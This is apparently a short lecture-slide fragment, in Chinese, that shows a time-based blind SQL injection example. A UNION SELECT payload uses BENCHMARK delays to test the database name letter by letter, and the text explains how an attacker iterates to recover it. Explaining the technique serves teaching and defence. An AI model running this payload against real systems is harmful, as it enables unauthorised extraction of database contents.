

一个例子
1170 UNION SELECT IF (SUBSTRING(current,1,1) = CHAR(119) ,BENCHMARK(5000000,ENCODE(‘MSG’,’by 5 seconds ’)), null) FROM (Select Database() as current) as tbl;
这个payload判断库名是否第一个字母为char（119），即小写的w，若是，则会通过BENCHMARK造成较长的延时，否则会很快执行完，攻击者遍历所有的字母，直到将整个数据库名全部验证完。